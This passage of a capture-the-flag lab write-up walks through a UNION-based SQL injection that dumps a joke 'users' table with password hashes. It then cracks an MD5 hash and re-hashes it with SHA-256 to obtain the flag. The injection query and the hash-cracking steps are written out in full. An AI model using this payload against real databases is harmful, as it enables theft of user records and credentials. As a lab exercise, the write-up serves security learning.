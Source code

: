 ## Get all the informations from the table

Now that we know tha names of the `columns` for the `tables we can try to access them using the following `sql` query.

```sql
1 AND 1=2 UNION SELECT first_name, CONCAT(CHAR(124), user_id, CHAR(124), first_name, CHAR(124), last_name, CHAR(124), town, CHAR(124), country, CHAR(124), planet, CHAR(124), Commentaire, CHAR(124), countersign, CHAR(124)) AS name FROM users --
```

> Note that here instead of quering two by two all the fields we concatanate **all** tue rows of the specific column into one string separated bu the character `|`.
> - [`CONCAT`](https://docs.microsoft.com/en-us/sql/t-sql/functions/concat-transact-sql?view=sql-server-ver15) : A function used to concatanate whatever you feed it.
> - [`CHAR`](https://docs.microsoft.com/en-us/sql/t-sql/functions/char-transact-sql?view=sql-server-ver15) : A function the character that represents the value you feed it

Here is the result we get

|Id | First name | Last name | Town | Country | Planet | Commentaire | Countersign |
|--|--|--|--|--|--|--|--|
|1|Barack Hussein|Obama|Honolulu |America|EARTH|Amerca !|2b3366bcfd44f540e630d4dc2b9b06d9|
|2|Adolf|Hitler|Berlin|Allemagne|Earth|Ich spreche kein Deutsch.|60e9032c586fb422e2c16dee6286cf10|
|3|Joseph|Staline|Moscou|Russia|Earth|????? ????????????? ?????????|e083b24a01c483437bcf4a9eea7c1b4d|
|5|Flag|GetThe|42|42|42|Decrypt this password -> then lower all the char. Sh256 on it and it's good !|5ff9d0165b4f92b14994e5c685cdce28|

We can see 2 things.

1. There is no id with the nimber **4**
2. The `id` numbeer 5 with the name `flag` contains an interesting **comment** (*Commentaire*) and **Countersign**.

It says
- We need to decryp the password which is `5ff9d0165b4f92b14994e5c685cdce28`
- Then lower all the characters
- And then hash it using Sha256 algorithm and it's good (meaning we will have the flag)

## Unhash and Rehash the result

- So the value `5ff9d0165b4f92b14994e5c685cdce28` is a `md5` hash of the word **`FortyTwo`**.
- When we lower all the characters we get **`fortytwo`**
- When we re hash it using sha245 we get the following checksum `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

> On a mac or linux you can get the sha256 checksum of the word `fortytwo` using the terminal with the following code
>
> ```bash
> echo -n "fortytwo" | sha256sum
> ```
>
> Or you can get it using online tools such as [this](https://md5decrypt.net/Sha256/) (or many others)
